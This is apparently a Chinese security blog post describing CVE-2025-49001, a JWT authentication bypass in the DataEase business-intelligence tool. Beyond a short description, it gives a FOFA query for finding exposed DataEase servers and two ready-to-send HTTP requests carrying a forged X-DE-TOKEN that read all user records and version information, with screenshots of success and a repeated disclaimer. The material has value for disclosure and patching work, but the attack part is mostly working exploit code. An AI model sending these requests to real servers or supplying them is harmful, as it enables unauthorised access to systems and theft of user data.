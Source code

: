 #  CVE-2025-49001 Dataease JWT 认证绕过导致未授权访问漏洞  
 HK安全小屋   2025-06-17 15:57  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
DataEase是一款开源的商业智能和数据可视化工具。CVE-2025-49001 中，由于JWT算法实现存在缺陷，导致攻击者可以使用任何secret来伪造JWT令牌，从而绕过权限校验调用后台相关功能接口，甚至造成代码执行。  
  
影响版本：  
  
DataEase  
  
FOFA:  
```
title="DataEase"
```  
  
  
POC1：  
```
GET /de2api/user/info HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: application/json, text/plain, */*Connection: close
Host: xx.x.xx.xx
out_auth_platform: default
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8
```  
  
成功读取系统所有用户信息  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/A8qcyicQXeI343Bv9UHwica6iamM1Zict2M7o5dvFuNb760B0Bm6rTGGZGDGj0YfvicYatAMdsSV7FMoaP1NUDGxbBg/640?wx_fmt=jpeg&from=appmsg "")  
  
POC2:  
```
GET /de2api/license/version HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: application/json, text/plain, */*
Connection: closeHost: xx.x.xx.xx
out_auth_platform: default
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8
```  
  
成功读取版本信息  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/A8qcyicQXeI343Bv9UHwica6iamM1Zict2M7e8JiaR85eSYmmDAnuibWw60E8QiadgU37oYnE0eRCiayWyNW4T37x6jrNA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
